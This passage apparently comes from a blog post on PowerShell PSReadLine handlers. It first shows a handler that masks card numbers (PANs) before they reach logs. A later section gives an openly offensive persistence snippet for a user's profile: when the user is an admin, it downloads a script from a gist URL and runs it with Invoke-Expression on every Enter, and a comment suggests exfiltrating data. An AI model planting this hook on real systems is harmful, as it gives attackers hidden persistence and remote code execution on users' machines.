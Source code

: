 ```powershell
    # Check each command and mask any PANs found
    $commandText = $CommandAst.Extent.Text
    $maskedCommandText = Mask-PANInText -text $commandText

    # If there are any changes, replace the command line text with the masked version
    if ($maskedCommandText -ne $commandText) {
        [Microsoft.PowerShell.PSConsoleReadLine]::Replace(
            $CommandAst.Extent.StartOffset,
            $CommandAst.Extent.EndOffset - $CommandAst.Extent.StartOffset,
            $maskedCommandText
        )
    }

    # Always return $true to accept the command for execution
    return $true
}

# Set up to validate and accept line when hitting Enter
Set-PSReadLineKeyHandler -Chord Enter -Function ValidateAndAcceptLine
```

As you guessed correctly, we check every single line, and if there is a PAN, we mask it when you hit Enter, so that it will not arrive to any logs, history and such. This is is one way you can use `PsReadLine` handlers. It is not very creative, but it is an example to show what you can do.

<img src="/assets/Animation-masking.gif" width="800" alt="Masking works as expected">

### Wait a minute

I did this for fun based on a compliance and security scenario but you can use it for any other purpose. Maybe you are trying to extend your offensive options?

```powershell
# This should be at the beginning of your profile if you are going to access [CommanAst] type.
# Otherwise, you don't need this line.
# using namespace System.Management.Automation.Language

# Rest of your profile is here

# Add this to wherever you want afterwards.

# CommandValidationHandler as a persistence mechanism
# Uncomment CommandAst related sections if you want to work with the content.
Set-PSReadLineOption -CommandValidationHandler {
    # param([CommandAst]$CommandAst)

    # Return if not admin
    $currentPrincipal = New-Object Security.Principal.WindowsPrincipal([Security.Principal.WindowsIdentity]::GetCurrent())
    If  (-not $currentPrincipal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Output 'Admin'
        return $true
    }
    $command = (Invoke-WebRequest -Uri "https://gist.githubusercontent.com/zbalkan/f5fe8258ed64da84bce254c9bab6ccfa/raw/6f30364d8f58f02db7f6ff37f02b6a0873956ba7/PsReadLineTest.ps1").Content
    $Command
    Invoke-Expression -Command $command -Verbose
    # Read each line if you need
    # $commandText = $CommandAst.Extent.Text

    # Do your trick here. Exfiltrate data or run commands as admin.

    # you can replace the line as I did with masking
    # $newCommand = 'Whatever you want'
```

[^1]: The payment processor may be a bank, or a third party that banks outsource the payment processing job. That's why I did not say banks. Banks as both issuers and acquirers have their position but let's not get into this part.
[^2]: While Github repositories do not reflect the dumpster of powershell script directories sysadmins piled up year by year, successor is getting closer for the open source/source available resources: